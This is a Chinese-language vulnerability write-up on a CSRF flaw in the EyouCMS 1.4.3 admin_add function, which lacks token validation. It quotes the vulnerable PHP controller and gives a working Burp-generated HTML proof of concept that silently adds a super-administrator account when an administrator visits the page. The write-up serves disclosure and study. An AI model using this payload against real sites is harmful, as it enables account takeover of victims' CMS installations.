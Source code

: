 Eyoucms 1.4.3 csrf漏洞
======================

一、漏洞简介
------------

可通过csrf漏洞添加管理员

二、漏洞影响
------------

Eyoucms 1.4.3

三、复现过程
------------

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

      public function admin_add()
     {
         $this->language_access(); // 多语言功能操作权限

         if (IS_POST) {
             $data = input('post.');

             if (0 < intval(session('admin_info.role_id'))) {
                 $this->error("超级管理员才能操作！");
             }

             if (empty($data['password']) || empty($data['password2'])) {
                 $this->error("密码不能为空！");
             }else if ($data['password'] != $data['password2']) {
                 $this->error("两次密码输入不一致！");
             }

             ...

             if (empty($data['pen_name'])) {
                 $data['pen_name'] = $data['user_name'];
             }
             if (M('admin')->where("user_name", $data['user_name'])->count()) {
                 $this->error("此用户名已被注册，请更换",url('Admin/admin_add'));
             } else {
                 $admin_id = M('admin')->insertGetId($data);
                 if ($admin_id) {
                     adminLog('新增管理员：'.$data['user_name']);

                     /*同步追加一个后台管理员到会员用户表*/
                     try {
                         $usersInfo = Db::name('users')->field('users_id')->where([
                                 'username'  => $data['user_name'],
                                 'lang'      => $this->admin_lang,
                             ])->find();
                         if (!empty($usersInfo)) {
                             $r = Db::name('users')->where(['users_id'=>$usersInfo['users_id']])->update([
                                     'nickname'      => $data['user_name'],
                                     'admin_id'      => $admin_id,
                                     'is_activation' => 1,
                                     'is_lock'       => 0,
                                     'is_del'        => 0,
                                     'update_time'   => getTime(),
                                 ]);
                             !empty($r) && $users_id = $usersInfo['users_id'];
                         } else {
                             // 获取要添加的用户名
                             ...

                             $users_id = Db::name('users')->insertGetId($AddData);
                         }
                         if (!empty($users_id)) {
                             Db::name('admin')->where(['admin_id'=>$admin_id])->update([
                                     'syn_users_id'  => $users_id,
                                     'update_time'   => getTime(),
                                 ]);
                         }
                     } catch (\Exception $e) {}
                     /* END */

                     $this->success("操作成功", url('Admin/index'));
                 } else {
                     $this->error("操作失败");
                 }
             }
         }

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项\>管理员\>新增管理员点击之后截包

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.4.3csrf漏洞/media/rId26.png)

### poc

     <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body>
     <script>history.pushState('', '', '/')</script>
         <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
         <input type="hidden" name="user&#95;name" value="test" />
         <input type="hidden" name="password" value="test" />
         <input type="hidden" name="password2" value="test" />
         <input type="hidden" name="pen&#95;name" value="" />
         <input type="hidden" name="true&#95;name" value="" />
         <input type="hidden" name="mobile" value="" />
         <input type="hidden" name="role&#95;id" value="&#45;1" />
         <input type="submit" value="Submit request" />
         </form>
     </body>
     </html>

模拟管理员点击

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.4.3csrf漏洞/media/rId28.png)

添加完成

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.4.3csrf漏洞/media/rId29.png)
